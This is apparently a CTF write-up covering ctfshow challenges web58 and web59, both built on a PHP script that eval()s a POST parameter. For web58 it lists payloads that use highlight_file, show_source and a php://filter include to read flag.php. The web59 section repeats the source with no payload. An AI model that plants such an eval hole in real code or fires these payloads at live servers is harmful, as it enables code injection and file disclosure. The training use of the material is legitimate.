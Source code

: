 
#### web58

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 22:02:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
}
```

payload:

```
c=highlight_file("flag.php");
c=include($_POST['w']);&w=php://filter/convert.base64-encode/resource=flag.php //文件包含，得到的回显需要进行base64解码
c=show_source('flag.php');
```



#### web59

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 22:02:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
}
```
